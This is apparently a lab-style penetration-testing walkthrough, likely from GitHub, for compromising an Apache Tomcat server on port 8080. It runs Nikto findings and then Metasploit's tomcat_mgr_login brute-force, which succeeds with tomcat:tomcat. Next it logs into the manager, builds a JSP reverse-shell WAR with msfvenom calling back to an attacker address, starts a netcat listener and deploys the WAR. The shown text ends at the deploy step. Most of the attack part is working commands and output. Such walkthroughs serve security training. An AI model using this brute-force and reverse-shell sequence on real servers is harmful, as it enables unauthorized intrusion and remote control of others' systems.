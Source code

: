 # Exploting Tomcat on Port 8080

From our earlier Nmap and Nikto scans we have identified Tomcat as runnning on Port 8080.
```
+ /: Appears to be a default Apache Tomcat install.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 'tomcat'). Apache Tomcat.
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /host-manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
```

## Attempt to Bruteforce authentication credentials using MetaSploit
Load up MetaSploit console and select the tomcat manager login module
`msf > use auxiliary/scanner/http/tomcat_mgr_login `

Show the options and supply the required information
```
Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                                            yes       The target address range or CIDR identifier
   RPORT             8080                                                                            yes       The target port
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                           yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads
   USERNAME                                                                                          no        A specific username to authenticate as
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST                                                                                             no        HTTP server virtual host

```

### Type `run`
```
msf auxiliary(tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:admin (Incorrect: )
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:manager (Incorrect: )
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:role1 (Incorrect: )
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:root (Incorrect: )
[+] 172.31.6.2:8080 - LOGIN SUCCESSFUL: tomcat:tomcat
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

## Use the Acquired Authentication credentials and login
* In a url modify the string in the address bar:

* Enter the authentication credentials discovered in the msf scan
![alt tag](https://user-images.githubusercontent.com/8903296/29285537-b60635f0-8126-11e7-926b-2cce147e56ec.PNG)

Scroll down the page and you will find a form that allows users to upload .war files
![alt tag](https://user-images.githubusercontent.com/8903296/29288490-d7b18ea2-8130-11e7-8cf0-3606619cc82b.PNG)

## Create the .war file
Create the .war file using msfvenom:
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.27.233.187 LPORT=12345 -f war > r_jsp_shell_12345.war
Payload size: 1093 bytes`

## Create a netcat listener
`nc -nlvp 12345
listening on [any] 12345 ...
`

## Upload and Deploy the .war file
* Click the `Browse` button navigating to the created .war file

* Click Deploy
